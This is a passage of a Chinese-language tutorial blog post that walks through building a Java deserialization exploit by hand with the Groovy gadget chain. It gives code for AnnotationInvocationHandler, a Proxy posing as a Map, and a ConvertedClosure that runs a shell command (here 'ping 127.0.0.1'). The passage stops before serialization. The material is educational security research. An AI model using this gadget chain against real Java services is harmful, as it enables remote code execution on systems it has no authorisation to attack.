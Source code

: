 

```
//this is the first class that will be deserialized
 String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
 //access the constructor of the AnnotationInvocationHandler class
 final Constructor&lt;?&gt; constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
 //normally the constructor is not accessible, so we need to make it accessible
 constructor.setAccessible(true);
```

你可以使用如下命令来编译并运行这段代码，虽然目前它还没有什么实际功能：



```
javac ManualPayloadGenerateBlog
java ManualPayloadGenerateBlog
```

当你拓展这段代码的功能时，请牢记以下几点：

**碰到错误代码时请及时Google。**

**类名需与文件名保持一致。**

**请熟练掌握Java语言。**

上述代码可以提供可用的初始入口点类以及构造函数，但我们具体需要往构造函数中传递什么参数呢？大多数例子中会使用如下这行代码：

```
constructor.newInstance(Override.class, map);
```

对于“map”参数我的理解是，首次调用readObject期间会调用map对象的“entrySet”方法。我不是特别明白第一个参数的内部工作机制，但我知道readObject方法内部会检查这个参数，以确认该参数为“AnnotionType”类型。我们为该参数提供了一个“Override”类，可以满足类型要求。

现在说到重点了。为了理解程序的工作原理，我们需要注意的是，第二个参数不是一个简单的Java map对象，而是一个Java代理（Proxy）对象。我第一次接触到这个事实时也不明白这有什么具体含义。有一篇[文章](http://www.baeldung.com/java-dynamic-proxies)详细介绍了Java动态代理（Dynamic Proxies）机制的相关内容，也提供了非常好的示例代码。文章部分内容摘抄如下：

“ 通过动态代理机制，仅包含1个方法的单一类可以使用多个调用接口为包含任意多个方法的任意类提供服务。动态代理的作用与封装（Facade）层类似，但你可以把它当成是任意接口的具体实现。抛去外表后，你会发现动态代理会把所有的方法调用导向单独的一个处理程序，即invoke()方法。 ”

简单理解的话，代理对象可以假装成一个Java map对象，然后将所有对原始Map对象的调用导向对另一个类的某个方法的调用。让我们用一张图来梳理一下：

[![](https://p2.ssl.qhimg.com/t01248224b852152157.png)](https://p2.ssl.qhimg.com/t01248224b852152157.png)

这意味着我们可以使用这种Map对象来拓展我们的代码，如下所示：

```
final Map map = (Map) Proxy.newProxyInstance(ManualPayloadGenerateBlog.class.getClassLoader(), new Class[] `{`Map.class`}`, &lt;unknown-invocationhandler&gt;);
```

需要注意的是，我们仍然需要匹配代码中的invocationhandler，现在我们还没填充这个位置。这个位置最终由Groovy来填充，目前为止我们仍停留在普通的Java类范围内。Groovy之所以适合这个位置，原因在于它包含一个InvocationHandler。因此，当InvocationHandler被调用时，程序最终会引导我们达到代码执行效果，如下所示：



```
final ConvertedClosure closure = new ConvertedClosure(new MethodClosure("ping 127.0.0.1", "execute"), "entrySet");
final Map map = (Map) Proxy.newProxyInstance(ManualPayloadGenerateBlog.class.getClassLoader(), new Class[] `{`Map.class`}`, closure);
```
